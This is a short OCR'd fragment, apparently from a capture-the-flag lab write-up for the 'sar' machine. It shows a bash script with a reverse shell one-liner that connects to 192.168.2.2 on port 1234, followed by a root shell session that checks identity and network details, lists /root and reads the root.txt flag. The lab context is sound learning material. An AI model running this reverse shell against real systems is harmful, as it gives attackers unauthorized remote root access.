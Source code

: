   #!/bin/bash 
  bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1' 
  touch /tmp/gateway
  root@sar:/var/www/html# whoami
  whoami
  root
  root@sar:/var/www/html# ip a
  ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
      link/ether 00:0c:29:ae:5c:8f brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.10/24 brd 192.168.2.255 scope global dynamic noprefixroute ens33
         valid_lft 1007sec preferred_lft 1007sec
      inet6 fe80::bff5:5001:3b84:1ff1/64 scope link noprefixroute 
         valid_lft forever preferred_lft forever
  root@sar:/var/www/html# uname -a
  uname -a
  Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  root@sar:/var/www/html# cd /root
  cd /root
  root@sar:~# ls -lhai
  ls -lhai
  total 40K
  262148 drwx------  5 root root 4.0K Aug 21 19:09 .
       2 drwxr-xr-x 24 root root 4.0K Oct 20  2019 ..
  282868 -rw-------  1 root root  501 Oct 21  2019 .bash_history
  262347 -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
  262346 drwx------  2 root root 4.0K Aug  6  2019 .cache
  295202 drwx------  3 root root 4.0K Oct 20  2019 .gnupg
  295197 drwxr-xr-x  3 root root 4.0K Oct 20  2019 .local
  262348 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
  282877 -rw-r--r--  1 root root   33 Oct 20  2019 root.txt
  262149 -rw-r-----  1 root root    6 Aug 21 21:36 .vboxclient-display-svga.pid
  root@sar:~# cat root.txt
  cat root.txt
  66f93d6b2ca96c9ad78a8a9ba0008e99
  root@sar:~# 
  ```